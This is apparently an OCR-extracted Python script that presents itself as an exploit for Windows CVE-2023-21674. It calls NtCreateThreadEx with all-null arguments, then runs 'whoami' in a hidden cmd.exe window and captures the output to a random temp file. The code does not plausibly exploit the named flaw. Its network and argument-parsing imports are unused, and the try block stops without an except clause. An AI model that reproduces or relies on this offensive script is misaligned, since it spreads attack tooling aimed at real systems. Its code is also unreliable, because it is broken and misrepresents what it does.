 import ctypes
import ctypes.wintypes
import subprocess
import random
import os
import tempfile
import time
import requests
from requests.auth import HTTPBasicAuth
import argparse

def generate_random_filename(length=8):
    chars = "abcdef0123456789"
    return ''.join(random.choice(chars) for _ in range(length))

def exploit_cve_2023_21674(output_dir=None):
    try:
        kernel32 = ctypes.windll.kernel32
        ntdll = ctypes.windll.ntdll

        if not kernel32 or not ntdll:
            raise OSError("Failed to load necessary DLLs.")

        NtCreateThreadEx = ntdll.NtCreateThreadEx
        NtCreateThreadEx.argtypes = [ctypes.POINTER(ctypes.wintypes.HANDLE), ctypes.c_uint32, ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID)]
        NtCreateThreadEx.restype = ctypes.c_long

        thread_handle = ctypes.wintypes.HANDLE()
        result = NtCreateThreadEx(ctypes.byref(thread_handle), 0, None, None, None, None, None, None, None, None, None, None, None)

        if result == 0:
            print("CVE-2023-21674: Thread created successfully.")
            time.sleep(1)

            if output_dir is None:
                output_dir = tempfile.gettempdir()
            output_filename = generate_random_filename() + ".txt"
            output_path = os.path.join(output_dir, output_filename)

            for _ in range(3):
                subprocess.run(["cmd.exe", "/c", f"whoami > {output_path}"], capture_output=True, creationflags=subprocess.CREATE_NO_WINDOW)
                if os.path.exists(output_path):
                    break
                time.sleep(0.5)

            if os.path.exists(output_path):
                with open(output_path, "r") as f:
                    output_content = f.read()
                    print(f"CVE-2023-21674: Output: {output_content}")
                os.remove(output_path)
            else:
                print("CVE-2023-21674: Failed to capture output after multiple attempts.")
        else:
            print("CVE-2023-21674: Thread creation failed.")
